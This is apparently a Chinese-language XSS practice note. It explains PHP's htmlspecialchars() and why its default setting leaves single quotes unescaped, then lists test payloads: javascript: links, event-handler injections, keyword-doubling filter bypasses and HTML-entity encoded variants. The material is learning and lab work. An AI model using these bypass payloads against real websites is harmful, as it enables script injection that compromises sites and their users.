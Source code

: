 ```yaml
---
title: XSS练习
categories: WebSec
tags: 
- XSS注入
---
```


可疑注入点的猜测

# 测试流程

## 测试是否有过滤  

输入特殊符号`'';!--"<XSS>=&{()}` 判断过滤情况
## htmlspecialchars()过滤
> what is htmlspecialchars

`htmlspecialchars()` 是一个 PHP 函数，用于将特殊字符转换为 HTML 实体，以便在 HTML 页面中正确显示这些字符。它的作用是防止特殊字符被误解为 HTML 标签或其他 HTML 语法。

函数的语法如下：

```php
htmlspecialchars(string $string, int $flags = ENT_COMPAT | ENT_HTML401, string|null $encoding = ini_get("default_charset"), bool $double_encode = true): string
```

参数说明：
- `$string`：要进行转换的字符串。
- `$flags`：可选参数，指定转换方式的标志。默认为 `ENT_COMPAT | ENT_HTML401`。一般使用默认值即可。
- `$encoding`：可选参数，指定输入字符串的字符编码，默认为 `ini_get("default_charset")`，即 PHP 配置文件中的默认编码。
- `$double_encode`：可选参数，如果设置为 `true`（默认值），则对已经存在的实体不进行二次转换。

`htmlspecialchars()` 函数会将特殊字符转换为相应的 HTML 实体。例如，将 `<` 转换为 `&lt;`、`>` 转换为 `&gt;`、`"` 转换为 `&quot;` 等。

以下是一个示例，演示了如何使用 `htmlspecialchars()` 函数：

```php
$str = 'This is <b>bold</b> text.';
$encoded_str = htmlspecialchars($str);
echo $encoded_str;
```

输出结果为：

```html
This is &lt;b&gt;bold&lt;/b&gt; text.
```

在上述示例中，`<b>` 和 `</b>` 标签被转换为了实体，从而避免了在页面中呈现为加粗文本。

通过使用 `htmlspecialchars()` 函数，我们可以确保用户输入的内容正确地显示在 HTML 页面中，并且有效防止了潜在的安全风险（例如 XSS 攻击）。  

由于htmlspecialchars默认配置是不过滤单引号的，于是想到构造单引号的payload  

同样的对于尖括号也可以使用  
'';!--"<XSS>=&{()}

## 测试
```
<a href="javascript:alert('1');">
onmouseover='alert(1)'
<img src=x onerror="alert('1')">

<input name=keyword  value="
'';!--"<xss>=&{()}javascript<script>

"></br><a herf="javascript:alert('1');">
"></br><img src="javascript:alert('1');">
"><a href="javascript:alert('Hello, world!')">Click me</a><"
">

<input name=keyword  value="
"onmouseover='alert(1)'"
">

<input name=keyword  value="
"><a hRef="javascript:alert('Hello, world!')">Click me</a><"
">

<input name=keyword  value="
"><a hrefhref="javascriptscpript:alert('hello, world!')">click me</a><"
"><a hherferf="javascrscriptipt:alert('1');"><"
"><"
"><a hhrefref="javascrscriptipt:alert('1');"><"
"></br><img src="javascrscriptipt:alert('1');"><"
"><img srsrcc=x onerror="alert('1')"><"
"></br><img src="javascrscriptipt:alert('1');"><"
">
# ascii 编码
"   &#34
t   &#116
f   &#102
:   &#58

<a href="javascript:alert('1');">



<input name=keyword  value="

&#34><a hre&#102=&#34javascrip&#116:alert('1')&#34;><&#34

">

"&#34><a hre&#102=&#34javascrip&#116:alert('1')&#34;><&#34"
javascrip&#116:alert('1');
<input name=keyword  value="

<a href="
javascrip&#116:alert('http://xx');
">
<h2 align=center>没有找到和
</h2><script>alert(1)</script><h2>
相关的结果.</h2><center>
<input name="t_sort"  value="3" type="hidden">
```

```

<input name="t_sort"  value="
3"onmouseover='alert('1')' type="text">
" type="hidden">

```